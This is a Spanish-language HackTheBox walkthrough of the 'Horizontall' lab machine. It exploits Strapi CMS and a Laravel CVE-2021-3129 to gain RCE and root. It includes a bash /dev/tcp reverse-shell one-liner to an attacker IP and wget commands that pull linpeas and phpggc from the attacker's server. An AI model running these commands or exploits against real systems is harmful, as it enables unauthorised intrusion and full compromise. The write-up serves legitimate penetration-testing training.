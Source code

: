 ```yaml
---
title: Horizontall
published: 2025-02-26
image: "./logo.png"
tags: [Easy, Information Leakage, Strapi CMS, Laravel, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

> Information Leakage
> Port Forwarding
> Strapi CMS Exploitation
> Laravel Exploitation

### Preparación

> eWPT
> eJPT

***

## Reconocimiento

Comenzaremos haciendo un escaneo a los puertos abiertos de la máquina y sus respectivos servicios y versiones.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.105
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FuVQ6oH5EAxdfPG4Rr9se%2Fimg1.png?alt=media&#x26;token=cb865253-994a-43c0-ac41-6fb0b5ae0703" alt=""><figcaption></figcaption></figure>

### HTTP

Podemos ver el puerto **SSH** y **HTTP** abiertos, empezaremos por el segundo. Al abrir la web podemos ver que usa un dominio **horizontall.htb**, por lo que lo añadimos al `/etc/hosts`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Ffg2oRhZUBeTGFq5aKMzl%2Fimg2.png?alt=media&#x26;token=ae123aa6-5262-452c-8d6c-913f64410e18" alt=""><figcaption></figcaption></figure>

### Gobuster

A primera vista parece una web normal. Por lo que comenzaremos a ver directorios/ficheros ocultos con **gobuster**_._


```
gobuster dir -u http://horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FtNGw6PG7hmxPKdT6uSRN%2Fimg3.png?alt=media&#x26;token=1566f1b7-6d75-422d-877e-c3a75727c31f" alt=""><figcaption></figcaption></figure>

## Ffuf (Virtual Hosting)

La verdad que no parece haber nada interesante. Como vimos antes corre un **nginx**.  Se puede estar usando **Virtual Hosting** para tener varias webs en la misma máquina, por lo que seguiremos el mismo procedimiento de reconocimiento.


```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://horizontall.htb -H "Host: FUZZ.horizontall.htb" -mc 200
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FPIzVYAEkFQNh1N0bcER4%2Fimg4.png?alt=media&#x26;token=1b1e7c0e-0c90-459f-b0a8-278b5b15e306" alt=""><figcaption></figcaption></figure>

Podemos ver el dominio api-prod, por lo que lo añadimos al /etc/hosts también. Y volveremos a hacer el mismo reconocimiento.


```
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmXlafoKabxScWfKSldO4%2Fimg5.png?alt=media&#x26;token=8807c335-603d-4412-9cfa-a1ad8b6ca284" alt=""><figcaption></figcaption></figure>

Probaremos a entrar primero a `/reviews` a ver que econtrarmos:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F1fYjNmjGl669tBiBiOiN%2Fimg6.png?alt=media&#x26;token=d188a6aa-fc36-48be-81b2-0c6bdccf4273" alt=""><figcaption></figcaption></figure>

Parecen ser reseñas de usuarios. Buscaremos en `/admin`:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FIpKEfgCbSPcrrXiREj09%2Fimg7.png?alt=media&#x26;token=724f0a44-b15b-4619-ab40-1d351bb59bc0" alt=""><figcaption></figcaption></figure>

### Strapi

Vemos que es un panel de login de administración de **strapi**. Investigando si vas a la ruta `/admin/init` te debería dar la versión como podemos ver:

```
3.0.0-beta.17.4
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FXsSRmoeOGcsdcHi8JknR%2Fimg8.png?alt=media&#x26;token=9e834f49-75d1-4904-8a0a-7df5259d12d5" alt=""><figcaption></figcaption></figure>

## Explotación

Buscando vulnerabilidades podemos encontrar una que incluso tiene un **PoC** ([Enlace](https://www.exploit-db.com/exploits/50239)). Copiamos el código en python y lo ejecutamos apuntando a la máquina víctima:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fr86UCR3r848B6IiZnNK4%2Fimg9.png?alt=media&#x26;token=31a8cf88-4079-4979-b2be-028e850b18b7" alt=""><figcaption></figcaption></figure>

Como podemos ver ya tenemos **RCE** por lo que vamos a intentar crear una reverse shell. Nos pondremos en escucha con netcat en el puerto 6969 y ejecutaremos la shell:

```
nc -lvnp 6969
```

```
bash -c 'bash -i >& /dev/tcp/10.10.14.16/6969 0>&1'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FEkx2vKcP0MKDU7mUiIPZ%2Fimg10.png?alt=media&#x26;token=4a6044a8-3e18-4469-963e-55e77bae5075" alt=""><figcaption></figcaption></figure>

Y ya tendríamos una shell con la máquina víctima. Al mirar en el escritorio del usuario developer podemos ver la user flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FChPiSJeqfpUYgW1pAVCN%2Fimg11.png?alt=media&#x26;token=abc77c13-623c-4abe-9956-bcceb095e35e" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Ahora tocaría la elevación para conseguir la root flag. Usaremos **linpeas.sh** para descubrir la máxima información posible por lo que descargaremos la release y la subiremos al servidor de python para poder descargarlo desde la máquina víctima:

```
python3 -m http.server
```

```
wget http://10.10.14.16:8000/linpeas.sh
```

```
chmod +x linpeas.sh
```

Al ejecutarlo podemos ver algo raro y es que internamente hay 2 puertos abiertos:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FDjnNTQsRBwevQuumEWPx%2Fimg12.png?alt=media&#x26;token=c875a779-8450-4a30-ada1-203a5a34bbc6" alt=""><figcaption></figcaption></figure>

El **8000** y el **1337**, si hacemos un curl del 8000 vemos lo siguiente:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFgvh1bKbol3FYX3tI4uv%2Fimg13.png?alt=media&#x26;token=29590719-13cd-4351-a262-1e34218aeffe" alt=""><figcaption></figcaption></figure>

Vemos que usa la versión 8 de **Laravel** un framework de **PHP** por lo que podríamos buscar si tiene alguna vulnerabilidad.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fx9BCWtS1SBG0gG6XFhYL%2Fimg14.png?alt=media&#x26;token=facc04af-857b-4ca7-bb58-bc6d9f1a6a8a" alt=""><figcaption></figcaption></figure>

Hay un **RCE** para esa versión, buscando he encontrado un [exploit](https://github.com/nth347/CVE-2021-3129_exploit) para este CVE, pero deberemos cambiar un poco el exploit ya que no puede hacer un git clone por el DNS.

```
os.system("wget http://10.10.14.16:8000/phpggc.tar")
os.system("tar -xvf phpggc.tar")
```

Cambiaremos esas 2 líneas por la parte del git clone. Lo descargamos desde la máquina después de haberlo comprimido e iniciado el servidor web en local. Ejecutamos el **exploit.py**:

```
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 "cat /root/root.txt"
```

Y así obtendremos la root flag.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/374)

---